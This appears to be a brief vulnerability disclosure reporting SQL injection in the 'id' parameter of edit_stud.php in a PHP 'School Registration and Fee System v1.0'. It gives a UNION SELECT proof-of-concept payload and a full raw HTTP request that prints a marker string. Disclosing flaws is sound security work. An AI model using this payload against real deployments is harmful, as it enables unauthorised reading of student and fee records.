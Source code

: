 # School Registration and Fee System v1.0 has SQL injection

BUG_Author:saintone98

Vulnerability File: /bilal final/edit_stud.php

GET parameter 'id' exists SQL injection vulnerability

Payload: id=-1' union all select null,null,null,concat(0x71727374,0x61626364,0x51525354),null,null,null,null,null,null,null,null,null,null,null,null-- -

```
GET /bilal%20final/edit_stud.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x71727374,0x61626364,0x51525354),null,null,null,null,null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=2vcgmn9u7h75h5jbjdi1d2e871
Connection: close
```

The string is displayed as scheduled

![image](https://github.com/saintone98/picture/blob/main/abcd.png)

